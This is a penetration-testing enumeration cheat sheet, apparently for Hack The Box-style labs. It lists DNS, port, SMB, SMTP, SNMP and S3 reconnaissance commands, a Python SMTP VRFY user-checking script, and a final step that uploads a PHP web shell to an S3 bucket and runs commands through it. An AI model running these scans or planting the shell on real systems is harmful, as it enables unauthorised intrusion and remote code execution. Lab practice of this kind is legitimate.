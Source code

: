 ```yaml
---
title: Enumeration Cheat Sheet
tags: [service, enum, cheatsheet]
tools: ['many']
notes: "Enumeration cheat sheet for common services"
---
```


# Enumeration Cheat Sheet

## DNS Enumeration

### Custom Host Enumeration
```bash
for ip in $(cat list.txt); do host $ip.-host-.com; done
```

### PTR Record Scan
```bash
for ip in $(seq 200 254); do host -host-.$ip; done | grep -v "not found"
```

### Automated Recon
```bash
dnsrecon -d -host- -t std
dnsrecon -d -host- -D ~/list.txt -t brt
dnsenum
```

### Subdomain Enumeration
```bash
gobuster vhost -w /usr/share/wordlists/seclists/Discovery/DNS/subdomains-top1million-5000.txt -u http://thetoppers.htb --append-domain
```

### Windows
```bash
nslookup
```

---

## TCP/UDP Enumeration

### Netcat Scanning

**TCP**
```bash
nc -nvv -w 1 -z <host> <port-port>
```

**UDP**
```bash
nc -nv -u -z -w 1 <host> <port-port>
```

### Nmap Sweep Scans

**Ping Sweep**
```bash
nmap -sn <host>
nmap -v -sn <host> -oG ping-sweep.txt
grep Up ping-sweep.txt | cut -d " " -f 2
```

**Port Scan**
```bash
nmap -p <port> <host> -oG web-sweep.txt
grep open web-sweep.txt | cut -d" " -f2
```

**OS Fingerprinting**
```bash
sudo nmap -O <host> --osscan-guess
nmap -sT -A <host> --aggressive
```

### Windows
```powershell
Test-NetConnection -Port 445 <host>
```

---

## SMB Enumeration

```bash
sudo nbtscan -r <network>/24
nmap -v -p 139,445 --script smb-os-discovery <host>
```

**Windows**
```powershell
net view \\dc01 /all
```

---

## SMTP Enumeration

**Manual User Verification**
```bash
nc -nv <host> 25
```

**Automated User Verification**
```bash
python3 smtp_verify.py <user> <host>
```

```python
#!/usr/bin/python
# smtp_verify.py
import socket, sys

if len(sys.argv) != 3:
    print("Usage: vrfy.py <username> <target_ip>")
    sys.exit(0)

s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
ip = sys.argv[2]
s.connect((ip, 25))
print(s.recv(1024))

user = (sys.argv[1]).encode()
s.send(b'VRFY ' + user + b'\r\n')
print(s.recv(1024))
```

**Windows**
```powershell
Test-NetConnection -Port 25 <host>
dism /online /Enable-Feature /FeatureName:TelnetClient
telnet <host> 25
```

---

## SNMP Enumeration

```bash
sudo nmap -sU --open -p 161 192.168.50.1-254 -oG open-snmp.txt

# Community strings
echo public > community
echo private >> community
echo manager >> community

# Host IPs
for ip in $(seq 1 254); do echo <host>.$ip; done > ips

# Scan with onesixtyone
onesixtyone -c community -i ips
```

**snmpwalk Queries**
```bash
snmpwalk -c public -v1 -t 10 <host>
snmpwalk -c public -v1 <host> 1.3.6.1.4.1.77.1.2.25      # Users
snmpwalk -c public -v1 <host> 1.3.6.1.2.1.25.4.2.1.2     # Processes
snmpwalk -c public -v1 <host> 1.3.6.1.2.1.25.6.3.1.2     # Installed Software
snmpwalk -c public -v1 <host> 1.3.6.1.2.1.6.13.1.3       # Listening TCP Ports
```

---

## AWS S3 Bucket Enumeration

```bash
# Check Auth
aws --endpoint=http://<host> s3 ls

# List Buckets
aws --endpoint=http://s3.thetoppers.htb s3 ls s3://thetoppers.htb

# Upload Shell
echo '<?php system($_GET["cmd"]); ?>' > shell.php
aws --endpoint=http://s3.thetoppers.htb s3 cp shell.php s3://thetoppers.htb
```

Access:
```
http://<host>/shell.php?cmd=id
```